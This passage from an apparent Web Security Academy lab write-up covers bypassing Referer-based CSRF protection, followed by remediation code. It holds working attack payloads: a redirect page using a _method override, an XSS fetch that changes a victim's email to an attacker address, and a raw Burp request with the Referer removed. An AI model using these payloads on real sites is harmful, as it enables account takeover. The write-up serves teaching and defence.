  </head>
  <body>
    <script>
        document.location = "https://LAB.net/my-account/change-email?email=evil@attacker.com&_method=POST";
    </script>
  </body>
</html>

When this combination is needed:
└── Endpoint uses _method override (SameSite Lax bypass)
    └── AND validates Referer header
        └── Suppress Referer AND use GET nav with _method
            └── Combined bypass! 🎯

Note: document.location with no-referrer meta tag:
└── Redirects to target URL
└── Referer suppressed → no Referer in request
└── _method=POST → server treats as POST
└── Both defences bypassed! 💥
```

---

### **Variation 6: CSRF via XSS (Referer Bypass)**

```r
// If XSS exists on the target site itself:
// Same-origin XSS → Referer is same domain → bypasses validation!

// XSS payload injected into target site:
fetch('/my-account/change-email', {
    method: 'POST',
    credentials: 'include',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: 'email=attacker%40evil.com'
});

Why XSS defeats Referer validation:
└── Fetch is FROM the target site
    └── Referer: https://lab.net/vulnerable-page
        └── Server: lab.net == lab.net → ACCEPTED! ✓
            └── Same-domain XSS always bypasses Referer checks! 💣

This is why XSS is more dangerous than CSRF:
└── XSS bypasses BOTH CSRF tokens AND Referer checks ⚠️
    └── (CSRF tokens only when XSS is same-origin)
```

---

### **Variation 7: Direct Request (No Browser)**

**Testing in Burp Repeater — remove Referer manually:**

```r
Using Burp Repeater directly:
POST /my-account/change-email HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=SESSION_VALUE
Content-Type: application/x-www-form-urlencoded
[NO Referer header]

email=attacker%40evil.com

Result:
└── Direct requests (no browser, no referrer) = accepted!
└── Proves the validation flaw without needing exploit server
└── Useful for confirming vulnerability before crafting exploit
```

---

### **Variation 8: Mobile App or Non-Browser Clients**

```r
Real-world scenario:

Many non-browser clients never send Referer:
├── Mobile apps (Android/iOS)
├── API clients (Postman, curl)
├── Server-to-server requests
└── Direct HTTP clients

If server blocks absent Referer:
└── ALL these clients would break!
    └── That's WHY developers allow missing Referer
        └── "Compatible with all clients" → vulnerability! 💣

Attack implication:
└── Even in production, many apps MUST accept no-Referer
    └── For mobile app compatibility
    └── For API integrations
    └── This isn't going away!
        └── Referer validation is fundamentally fragile! ⚠️
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Use CSRF Tokens Instead (Primary Fix)**

```python
# ✅ SECURE - Replace Referer validation with proper CSRF tokens

# Django — built-in CSRF token validation
from django.views.decorators.csrf import csrf_protect

@csrf_protect
def change_email(request):
    if request.method == 'POST':
        # Django validates session-bound CSRF token
        # Cannot be bypassed by suppressing Referer
        # Cannot be bypassed by meta no-referrer
        # Secure regardless of headers present!
        
        request.user.email = request.POST['email']
        request.user.save()
        return redirect('account')

# Template:
<form method="POST" action="">
       ← Session-bound token included
    <input type="email" name="email">
    <button>Update</button>
</form>

Why CSRF tokens beat Referer validation:
✅ Cannot be suppressed (embedded in form body)
✅ Cannot be forged (unknown to attacker)
✅ Works regardless of Referer header presence
✅ Works for all clients (mobile, API, browser)
✅ Industry standard approach
```

---

### **Fix 2: Require Referer to be Present AND Valid**

```php
// ✅ SECURE - Reject requests with missing Referer

function validateReferer() {
    // Step 1: REQUIRE Referer to be present
    if (!isset($_SERVER['HTTP_REFERER']) || empty($_SERVER['HTTP_REFERER'])) {
        http_response_code(403);
        die('Referer header is required');
    }

    // Step 2: Validate the domain
    $referer = $_SERVER['HTTP_REFERER'];
    $refererHost = parse_url($referer, PHP_URL_HOST);
    $allowedHost = $_SERVER['HTTP_HOST'];

    if ($refererHost !== $allowedHost) {
        http_response_code(403);
        die('Invalid referer domain');
    }

    return true;
}

validateReferer();  // Called BEFORE processing
updateEmail($_POST['email']);

Important caveat:
└── This will break:
    ├── Mobile app users (no Referer)
    ├── Privacy tool users (Referer stripped)
    └── API integrations (no browser)
→ That's why CSRF tokens are better! ✓
→ Use this only as extra defence, not sole protection
```

---

### **Fix 3: SameSite=Strict on Session Cookie**

```javascript
// ✅ SECURE - SameSite=Strict makes Referer checks redundant

app.use(session({
    secret: process.env.SESSION_SECRET,
    cookie: {
        httpOnly: true,
        secure: true,
        sameSite: 'strict'   // No cross-site requests with session cookie!
    }
}));

// With SameSite=Strict:
// └── Session cookie NEVER sent on cross-site requests
//     └── Even if Referer is absent
//         └── No session = no account context = attack irrelevant ✓

// The meta no-referrer trick becomes useless:
// └── Attacker suppresses Referer ✓
//     └── But session cookie also not sent (Strict blocks it)
//         └── Server receives request without session
//             └── Not authenticated = cannot change email!
//                 └── Attack fails! 🛡️
```

---

### **Fix 4: Validate Origin Header (More Reliable Than Referer)**

```javascript
// ✅ MORE SECURE - Origin header is harder to suppress

function validateOriginHeader(req) {
    const origin = req.headers['origin'];
    const host = req.headers['host'];

    // Origin header is sent by browsers on cross-origin requests
    // It cannot be set by <meta name="referrer" content="no-referrer">!
    // The no-referrer policy ONLY affects the Referer header, NOT Origin!

    if (origin) {
        const originHost = new URL(origin).host;
        if (originHost !== host) {
            return false;
        }
    }
    // If no Origin header: could be direct/same-origin request
    // For state-changing ops, check Referer as fallback:
    if (!origin) {
        const referer = req.headers['referer'];
        if (referer) {
            const refHost = new URL(referer).host;
            if (refHost !== host) return false;
        } else {
            return false;  // Neither Origin nor Referer — reject!
        }
    }
    return true;
}

// Key insight:
// └── <meta name="referrer" content="no-referrer">
//     └── Suppresses: Referer header ❌
//     └── Does NOT suppress: Origin header ✓
//         └── Origin still sent for cross-origin POST!
//             └── Server can validate Origin even when Referer missing

// Important: Origin validation alone is not sufficient
//            Always combine with CSRF tokens!
```

---

### **Fix 5: Defense in Depth — All Three Layers**

```
✅ MOST SECURE - Layered defences

Layer 1: SameSite=Strict session cookie
  └── Blocks cross-site requests at browser level
  └── Session cookie not sent cross-site → attack impossible

Layer 2: CSRF tokens
  └── Session-bound tokens required in all state-changing forms
  └── Cannot be forged even if SameSite bypassed

Layer 3: Origin/Referer validation (supplementary)
  └── Extra sanity check on request source
  └── Reject both cross-domain AND missing headers
  └── Never the sole defence!

Code example:
app.post('/change-email',
    validateSameSite,     // Check SameSite cookie present
    validateCSRFToken,    // Check session-bound token
    validateOrigin,       // Check Origin/Referer header
    (req, res) => {
        updateEmail(req.body.email);
        res.redirect('/account');
    }
);

Result:
└── Attacker must bypass ALL THREE layers simultaneously
    └── SameSite=Strict: cookie not sent cross-site
    └── CSRF token: cannot be forged cross-origin
    └── Origin validation: Origin header present and checked
        └── Defense in depth! Multiple independent barriers 🛡️🛡️🛡️
```

---
